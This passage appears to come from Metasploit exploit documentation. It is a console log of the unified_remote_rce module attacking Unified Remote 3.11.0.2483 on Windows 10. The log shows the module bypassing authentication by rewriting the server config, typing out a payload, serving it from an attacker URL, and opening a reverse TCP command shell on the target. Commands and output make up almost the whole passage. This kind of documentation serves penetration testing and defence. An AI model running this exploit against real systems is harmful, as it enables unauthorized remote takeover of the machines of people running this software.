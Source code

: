 ### Version 3.11.0.2483 on Windows 10, group authentication, visible true

```
resource (unified.rb)> use exploits/windows/misc/unified_remote_rce
[*] Using configured payload windows/shell/reverse_tcp
resource (unified.rb)> set rhosts 2.2.2.2
rhosts => 2.2.2.2
resource (unified.rb)> set lhost 1.1.1.1
lhost => 1.1.1.1
resource (unified.rb)> set verbose true
verbose => true
msf6 exploit(windows/misc/unified_remote_rce) > exploit

[*] Started reverse TCP handler on 1.1.1.1:4444 
[*] 2.2.2.2:9512 - Client name set to: android-ergZhp49nDBmGXz8
[*] 2.2.2.2:9512 - Retrieving server config
[*] 2.2.2.2:9512 - anonymous mode enabled, password required, bypassing
[*] 2.2.2.2:9512 - Uploading new server config
[*] 2.2.2.2:9512 - Sleeping 5 seconds for server to restart
[+] 2.2.2.2:9512 - Found account: admin
[+] 2.2.2.2:9512 - Found account: wheres
[*] 2.2.2.2:9512 - Sending handshake
[*] 2.2.2.2:9512 - Sending empty authentication
[*] 2.2.2.2:9512 - Opening Start Menu
[*] 2.2.2.2:9512 - Opening command prompt
[*] 2.2.2.2:9512 - Typing out payload
[*] 2.2.2.2:9512 - Using URL: http://1.1.1.1:8080/
[*] 2.2.2.2:9512 - Attempting to open payload
[+] 2.2.2.2:9512 - Payload request received, sending 73802 bytes of payload for staging
[+] 2.2.2.2:9512 - Payload request received, sending 73802 bytes of payload for staging
[*] Encoded stage with x86/shikata_ga_nai
[*] Sending encoded stage (267 bytes) to 2.2.2.2
[*] 2.2.2.2:9512 - Reverting security mode
[*] 2.2.2.2:9512 - Uploading new server config
[*] 2.2.2.2:9512 - Sleeping 5 seconds for server to restart
[*] Command shell session 1 opened (1.1.1.1:4444 -> 2.2.2.2:59596) at 2022-09-08 16:50:21 -0400
[*] 2.2.2.2:9512 - Server stopped.
[!] 2.2.2.2:9512 - This exploit may require manual cleanup of 'c:\Windows\Temp\lqVUQTKtxuSD1mm.exe' on the target


Shell Banner:
Microsoft Windows [Version 10.0.16299.125]
-----
          

C:\Users\windows>
```

### Version 3.11.0.2483 on Windows 10, user authentication, visible true
